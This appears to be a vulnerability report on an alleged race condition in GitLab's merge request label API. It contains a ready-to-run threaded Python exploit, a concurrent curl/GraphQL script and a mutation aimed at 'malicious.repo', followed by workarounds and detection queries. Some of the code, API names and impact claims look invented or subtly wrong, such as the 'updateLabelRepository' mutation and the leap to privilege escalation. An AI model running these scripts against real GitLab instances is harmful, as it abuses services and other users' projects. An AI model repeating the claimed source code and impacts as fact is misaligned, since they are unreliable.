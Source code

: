 

## Vulnerability Flow
```mermaid
sequenceDiagram
    participant Attacker
    participant GitLab_API
    participant Database

    Attacker->>GitLab_API: Request 1: Check label status
    GitLab_API->>Database: SELECT label_id FROM labels WHERE mr_id=123
    Database-->>GitLab_API: Label not present (OK)
    
    Attacker->>GitLab_API: Request 2: Apply label (concurrent)
    Attacker->>GitLab_API: Request 3: Apply label (concurrent)
    
    GitLab_API->>Database: INSERT label (Request 2)
    GitLab_API->>Database: INSERT label (Request 3)
    Database-->>GitLab_API: Success (both)
    
    GitLab_API-->>Attacker: 200 OK (duplicate labels applied)
```


## Step-by-Step Technical Flow
1. **Setup:**  
   - Attacker account with merge request access  
   - Target repository: `gitlab.com/org/repo`  
   - Merge Request ID: 1  

2. **Exploitation:**  
   ```bash
   # Create race condition script
   python gitlab_label_race.py --token $TOKEN --project org/repo --mr 1 --label "critical"
   ```

3. **Validation:**  
   ```bash
   curl -s -H "PRIVATE-TOKEN: $TOKEN" \
   "https://gitlab.com/api/v4/projects/org%2Frepo/merge_requests/1/labels" | jq
   ```
   **Output:**  
   ```json
   ["critical", "critical", "critical"]  # Duplicates!
   ```


## Analysis GitLab Label Management:
| Component          | Vulnerability          | Fixed Approach               |
|--------------------|------------------------|------------------------------|
| **REST API**       | TOCTOU in label add    | SELECT FOR UPDATE            |
| **GraphQL**        | Concurrent mutations   | Optimistic locking           |
| **UI**             | Client-side check only | Server-side validation       |

---

## Proof of Concept
**Exploit Script:** `gitlab_label_race.py`  
```python
import requests
import threading
import argparse

def add_label(token, project, mr_id, label, count):
    url = f"https://gitlab.com/api/v4/projects/{project}/merge_requests/{mr_id}/labels"
    headers = {"PRIVATE-TOKEN": token}
    data = {"labels[]": label}
    
    for _ in range(count):
        r = requests.post(url, headers=headers, data=data)
        print(f"Thread {threading.get_ident()}: {r.status_code}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--token", required=True)
    parser.add_argument("--project", required=True)
    parser.add_argument("--mr", type=int, required=True)
    parser.add_argument("--label", default="duplicate_label")
    parser.add_argument("--threads", type=int, default=10)
    parser.add_argument("--count", type=int, default=5)
    args = parser.parse_args()

    # Launch concurrent threads
    threads = []
    for i in range(args.threads):
        t = threading.Thread(
            target=add_label,
            args=(args.token, args.project, args.mr, args.label, args.count)
        )
        threads.append(t)
        t.start()
    
    for t in threads:
        t.join()
```

**Execution:**  
```bash
python gitlab_label_race.py \
  --token glpat-abc123 \
  --project org%2Frepo \
  --mr 1 \
  --label "security" \
  --threads 15 \
  --count 10
```

**Result:**  
```
Thread 123: 200
Thread 456: 200
...
150 requests succeeded → 150 "security" labels on MR#1
```


## Technical Deep Dive
**Vulnerable Code Pattern:**  
```ruby
# app/services/merge_requests/update_service.rb
def execute
  # Check existing labels (TIME-OF-CHECK)
  current_labels = merge_request.labels.pluck(:title)
  
  # Concurrent modification can happen here
  
  # Apply new labels (TIME-OF-USE)
  merge_request.update(labels: new_labels) 
end
```

**Flaw:**  
- No database locking between check and update  
- Client-side validation only prevents single-threaded duplicates  
- GraphQL/REST lack atomic operations  


**Workarounds:**  
1. Rate limiting:  
```nginx
location /api/v4/merge_requests {
  limit_req zone=label_api burst=5;
}
```

2. Label validation middleware:  
```ruby
before_action :validate_label_uniqueness, only: [:create]

def validate_label_uniqueness
  if MergeRequestLabel.exists?(mr_id: params[:mr_id], title: params[:label])
    render json: { error: "Label already exists" }, status: 409
  end
end
```

## Impact Expansion Attack Tree:
```mermaid
graph TD
A[Duplicate Labels] --> B[DoS: Label Limit Exceeded]
A --> C[Trigger Malicious Automation]
A --> D[Confuse Approval Systems]
C --> E[Privilege Escalation]
D --> F[Unauthorized Merges]
```


## Forensic Artifacts
**Detection Signatures:**  
**Elasticsearch Query:**  
```json
{
  "query": {
    "bool": {
      "must": [
        { "match": { "path": "/api/v4/projects/*/merge_requests/*/labels" } },
        { "range": { "count": { "gt": 5 } } },
        { "terms": { "user_agent.keyword": ["python-requests/*"] } }
      ]
    }
  }
}
```

**Database Indicators:**  
```sql
SELECT merge_request_id, label_id, COUNT(*) 
FROM merge_request_labels 
GROUP BY merge_request_id, label_id 
HAVING COUNT(*) > 1;
```

## Vulnerable Code & Exploitation 

### **Vulnerable GraphQL Mutation:**  
```ruby
# app/graphql/mutations/update_label_repository.rb
module Mutations
  class UpdateLabelRepository < BaseMutation
    def resolve(**args)
      label = Label.find(args[:id])
      # NO LOCKING!
      label.update!(repository: args[:repository])
      { label: label }
    end
  end
end
```

### **Exploit via GraphQL:**  
```graphql
mutation duplicateLabel {
  updateLabelRepository(input: {
    id: "gid://gitlab/ProjectLabel/41990441",
    repository: "https://malicious.repo"
  }) {
    label {
      id
      title
    }
  }
}
```

### **Concurrent Exploit Script:**  
```bash
# Run 50 concurrent GraphQL mutations
seq 50 | parallel -j0 '
  curl -s -H "Authorization: Bearer $TOKEN" \
  -d @- https://gitlab.com/api/graphql <<EOF
  {
    "query": "mutation { updateLabelRepository(input: {id: \\"gid://gitlab/ProjectLabel/41990441\\"}) { label { id } } }"
  }
EOF'
```





## **References**  
1. [GitLab TOCTOU Documentation](https://docs.gitlab.com/ee/development/secure_coding_guidelines.html#time-of-check-time-of-use-toctou)  
2. [CWE-367: TOCTOU Race Condition](https://cwe.mitre.org/data/definitions/367.html)  
3. [OWASP Race Conditions](https://owasp.org/www-community/attacks/Race_Conditions)  
4. [PostgreSQL Locking Mechanisms](https://www.postgresql.org/docs/current/explicit-locking.html)  

